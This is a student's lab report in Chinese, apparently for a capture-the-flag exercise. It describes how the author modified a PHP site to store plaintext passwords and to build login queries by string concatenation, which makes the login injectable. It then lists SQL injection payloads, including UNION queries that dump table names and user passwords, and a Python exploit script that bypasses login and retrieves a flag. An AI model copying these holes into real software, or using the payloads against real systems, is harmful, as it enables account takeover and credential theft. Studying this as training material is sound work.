

# 「320 垃圾回收站」总结技术报告

谢意浓

## 实验内容

- SQL 漏洞注入（此部分由两人共同完成）
- EXP 脚本撰写

## 实验环境

- Apache
- MySQL
- XAMPP
- PHP
- phpMyAdmin
- VSCode

## 实验步骤

### 配置开发环境

- 依据负责前后端开发的同学的总结技术报告，利用 XAMPP 作为 Apache 和 MySQL 接口，安装 phpMyAdmin 管理后端数据库，为 VSCode 配置 PHP 编程环境及相关插件

### 修改前后端代码，嵌入 SQL 漏洞

- 修改注册部分( process_signup.php )代码和 garbage_collection 数据库的 user 表格

  - 原因：原代码将用户密码作哈希处理后存储在数据库中，攻击者即使攻破数据库获取数据库数据也无法反向破解用户密码。故修改代码及表格为 SQL 注入破解数据库用户密码提供入口

  - ```php
    // 原代码部分
    $sql = "INSERT INTO user (name, email, password_hash)
            VALUES (?, ?, ?)";
            
    $stmt = $mysqli->stmt_init();
    
    if ( ! $stmt->prepare($sql)) {
        die("SQL error: " . $mysqli->error);
    }
    
    $stmt->bind_param("sss",
                      $_POST["name"],
                      $_POST["email"],
                      $password_hash);
                      
    // 修改后代码部分
    $sql = "INSERT INTO user (name, email, password, password_hash)
            VALUES (?, ?, ?, ?)";
            
    $stmt = $mysqli->stmt_init();
    
    if ( ! $stmt->prepare($sql)) {
        die("SQL error: " . $mysqli->error);
    }
    
    $stmt->bind_param("ssss",
                      $_POST["name"],
                      $_POST["email"],
                      $_POST["password"],
                      $password_hash);
    ```

  - 修改后的 user 表格如下：

    - 

- 修改用户登录( login.php )部分代码

  - 原因：原代码采用用户邮箱及密码进行登录，登录过程中会对邮箱格式合法性进行校验，阻碍攻击方采用万能语句进行 SQL 注入登录。故修改代码，采用用户名及密码进行登录

  - ```php
    // 原代码部分
    <?php
    
    $is_invalid = false;
    
    if ($_SERVER["REQUEST_METHOD"] === "POST") {
        
        $mysqli = require __DIR__ . "/database.php";
        
        $sql = sprintf("SELECT * FROM user
                        WHERE email = '%s'",
                        $mysqli->real_escape_string($_POST["email"]));
        
        $result = $mysqli->query($sql);
        
        $user = $result->fetch_assoc();
        
        if ($user) {
            
            if (password_verify($_POST["password"], $user["password_hash"])) {
                
                session_start();
                
                session_regenerate_id();
                
                $_SESSION["user_id"] = $user["id"];
                
                header("Location: index.php");
                exit;
            }
        }
        
        $is_invalid = true;
    }
    
    ?>
        
    // 修改代码后部分
    <?php
    ini_set("error_reporting","E_ALL & ~E_NOTICE");
    
    $mysqli = require __DIR__ . "/database.php";
    $name=$_POST['name'];
    $pwd=$_POST['password'];
    $sql="select * from user where name='$name' and password='$pwd'";
    
    $result = $mysqli->query($sql);
    $result1 = $mysqli->query($sql);
    $user = $result->fetch_assoc();
    $row = $result1->fetch_array();
    
    
    $query = $mysqli->query("select name from user"); 
    $ar=array();
    
    while($rows = $query->fetch_assoc()){ 
    	$ar[] = $rows['name']; 
    } 
    
    $res=in_array($user['name'],$ar);
    
    
    if ($res) {
        session_start();
        session_regenerate_id();
        $_SESSION["user_id"] = $user["id"];
        header("Location: upload.php");
        exit;
    }else {
        do{
            if(!is_null($row)) {
                for($i=0; $i<count($row); $i++) {
                    echo $row[$i];
                    echo "<br>";
                }
            }else{
                echo"error!";
            }
        } while( $row = $result->fetch_array() );
    }
    ```

- SQL 注入攻击功能展示

  - 万能语句进行登录： `' or 1=1#`
  - 攻击确定字段数： `' order by 6#`
  - 攻击获取数据库名： `' union select database(),1,1,1,1#`：garbage_collection
    - 
  - 攻击获取表名： `' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema='garbage_collection'#`： file,user
    - 
  - 攻击获取列名： `' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='user' and table_schema='garbage_collection'#`： id,name,email,password,password_hash
    - 
  - 攻击获取数据（用户名及用户密码）： `' union select 1,group_concat(name),group_concat(password),4,5 from user#`
    - 


### 撰写 EXP 脚本

- 执行 SQL 注入攻击，利用万能语句登录服务器

  - 观察 login.php 以及网页上传参数抓包，可知网页是通过 POST 方式提交相关参数到服务器

  - 创建 usr_data 字典，其中“ name “关键字的值设置为万能注入语句" `' or 1=1#` "，“ password ”关键字的值设置为空

  - ```python
    usr_data = {
        "name" : "' or 1=1#",
        "password" : "",
    }
    usr_header = {
        "User-Agent" : "Mozilla/5.0 (Linux; U; Android 666; en-us; Nexus S Build/GRK39F) AppleWebKit/533.1 (KHTML, like Gecko) Version/666 Mobile Safari/533.1",
        "Referer" : "http://localhost/login.php"
    }
    response = requests.post("http://localhost/login.php", data=usr_data, headers=usr_header)
    ```
    
  - 其中若 `response.url == 'http://localhost/upload.php'` ，则可判断注入成功，成功登录服务器，进入文件上传页面

- 上传测试文件

  - 观察 upload.php 以及网页上传参数抓包，可知网页是通过 POST 方式提交相关参数到服务器

  - 创建 files_test 字典，用于打开测试文件上传功能的测试文件 test.jpg

  - ```python
    files_test = {'file' : open('../ToUpload/test.jpg', 'rb')}
    response_file = requests.post(response.url, files=files_test)
    ```

  - 其中若 `response_file.status_code == 200` 则可判断文件上传成功

- 列出服务器所在目录下的所有文件、子目录、子目录下的文件

  - ```python
    # current_directory = os.path.dirname(os.getcwd())
    current_directory = os.path.dirname(os.getcwd()) + '\\源码\\docker\\src'
    root = current_directory
    
    target_path = 'http://localhost'
    
    def scaner(url, num):
        for f in os.listdir(url):    
            real_url = os.path.join(url, f)
            if path.isfile(real_url):
                print(num*'  ' + 'File: ' + f)
                if 'flag' in f:
                    global target_path
                    length = len(root)
                    tmp = real_url[length:]
                    target_path += tmp
                    target_path = target_path.replace('\\', '/')
            elif path.isdir(real_url):
                pass
        for f in os.listdir(url):    
            real_url = os.path.join(url, f)
            if path.isfile(real_url):
                pass
            elif path.isdir(real_url):
                print(num*'  ' + 'Subfolder: ' + f)
                scaner(real_url, num+1)
     
    scaner(root, num = 0)
    ```
    
  - 根据 target_path 内容即可以判断 flag.txt 所在文件夹路径

- 根据 target_path 路径获取 flag 内容

  - 观察网页上传参数抓包，可知网页是通过 GET 方式从服务器获取相关文件的

  - ```python
    response_flag = requests.get(target_path, data=usr_data, headers=usr_header)
    return response_flag.text
    ```

- 将返回的 flag 文本同步输入到 exp_output.txt 中，文本文件作为 check 脚本判断 exp 功能是否能顺利获取 flag 的依据

  - ```
    fp = open("exp_output.txt", "a+")
    flag = getshell()
    print('--- Flag is ' + flag + ' --- \n', file=fp)
    fp.close()
    ```

## 实验问题

- 在 XAMPP 中打开 Apache 和 MySQL 端口后进入服务器，在注册用户过程中始终显示 `'email already taken'` ，无法进行新用户的注册
  - 解决办法：更新 XAMPP 版本从 7.4.29 至 8.1.6

## 参考文献

- [PHP 如何判断数组中是否存在指定字符串](https://jingyan.baidu.com/article/e8cdb32b63dc8676042bad55.html)

- [PHP 如何把数据库里一列的值看成是一个数组然后输出](https://m.imooc.com/wenda/detail/343918)

- [Python —— Request 模块](https://blog.csdn.net/qq_37616069/article/details/80376776)

- [Python 模拟登录行为并保持 session](https://www.bilibili.com/video/BV1MW411b7NH?spm_id_from=333.337.search-card.all.click&vd_source=f39ee8fea9a3cdf0351450e705ecd0f7)
- [Python 爬虫-上传文件](https://www.bilibili.com/video/BV1DV41177sA?spm_id_from=333.337.search-card.all.click&vd_source=f39ee8fea9a3cdf0351450e705ecd0f7)
- [在 Python 中如何将数据直接输出到文件中](https://blog.csdn.net/XING_Gou/article/details/119347404)
- [Python中替换字符串中字符_Python replace() 函数：替换字符串中的某个字符](https://blog.csdn.net/weixin_42679995/article/details/113968893)
- [Python列出文件夹所有文件_Python 列出一个文件夹及其子目录的所有文件](https://blog.csdn.net/weixin_39805734/article/details/110114973)
- [如何使用 phpMyAdmin 导出 SQL 数据库](http://www.muzhuangnet.com/show/78054.html)

